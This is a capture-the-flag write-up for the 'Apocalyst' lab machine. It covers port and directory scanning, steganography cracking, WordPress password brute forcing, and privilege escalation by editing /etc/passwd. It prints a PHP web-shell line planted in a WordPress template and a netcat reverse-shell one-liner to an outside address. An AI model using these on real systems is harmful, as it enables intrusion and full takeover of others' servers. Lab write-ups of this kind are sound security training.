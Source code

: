 # Apocalyst Writeup


## Enumeration

#### Port Scanning
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-25 05:20 UTC
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 21.07% done; ETC: 05:20 (0:00:07 remaining)
Warning: 10.129.220.250 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.220.250
Host is up (0.064s latency).
Not shown: 933 closed ports, 65 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 12.25 seconds
```

#### Directory Fuzzing

Running _gobuster_ on the website didn't reveal anything of meaning, so I ran CEWL on the website, and ran that wordlist against it. 

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.220.250/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                words
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              -t
[+] Timeout:                 10s
===============================================================
2021/11/25 05:30:19 Starting gobuster in directory enumeration mode
===============================================================
/Revelation           (Status: 301) [Size: 321] [--> http://10.129.220.250/Revelation/]
/Book                 (Status: 301) [Size: 315] [--> http://10.129.220.250/Book/]      
/Daniel               (Status: 301) [Size: 317] [--> http://10.129.220.250/Daniel/]    
/the                  (Status: 301) [Size: 314] [--> http://10.129.220.250/the/]       
/end                  (Status: 301) [Size: 314] [--> http://10.129.220.250/end/]       
/that                 (Status: 301) [Size: 315] [--> http://10.129.220.250/that/]      
/and                  (Status: 301) [Size: 314] [--> http://10.129.220.250/and/]       
/entry                (Status: 301) [Size: 316] [--> http://10.129.220.250/entry/]     
/The                  (Status: 301) [Size: 314] [--> http://10.129.220.250/The/]       
/for                  (Status: 301) [Size: 314] [--> http://10.129.220.250/for/]       
<snipped>
```
The list of found directories was very long. There were only a few contents that returned a size bigger than 323, so I inspected each individually. Each one had the same picture on it. The source code for each was also all the same except for one. 

Once I downloaded that image, I ran _stegseek_ on the image, which cracked it and produced another wordlist. I then ran this wordlist on the login page, since it's a wordpress site. I ran `wpscan --url http://apocalyst.htb/ --passwords worlist.txt -U falaraki`. Falaraki is the author of the three blogposts on the site, so I assumed that that would be a valid username. 

This succeeded in finding me a valid login, which then gave me access to the admin panel. 

## Initial Access

For initial access, I went to Appearance -> Editor -> Error 404 Template, and added this line:

`if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }`

This takes a GET parameter called **cmd**, and executes it, displaying the contents to the page. The only way to run it is to pass that parameter on a 404 page, for example, _http://apocalyst.htb/?p=6&cmd=ls_. 

Now that we had RCE, we just have to get a shell. Passing the reverse shell command in the URL bar didn't work too well for me, so I used _curl_. `curl "http://apocalyst.htb/?p=6&" --data-urlencode "cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.131 443 >/tmp/f"`

## Privelege Escalation

Next, I found I could read a file called _.secret_ in falaraki's home directory, even though I was www-data. The contents were a Base64 encoded password. With that, I logged in over SSH as falaraki for a more stable shell/TTY. 

Finally, I didn't find anything obvious, so I ran LinPEAS on it, which found that /etc/passwd was writeable by my user. I ran `openssl passwd <my_password>` on my host to create a correctly encrypted password that fits the /etc/passwd format, then pasted it into the root user's line in /etc/passwd.

Then, I su'd to root, using the password I just created. 
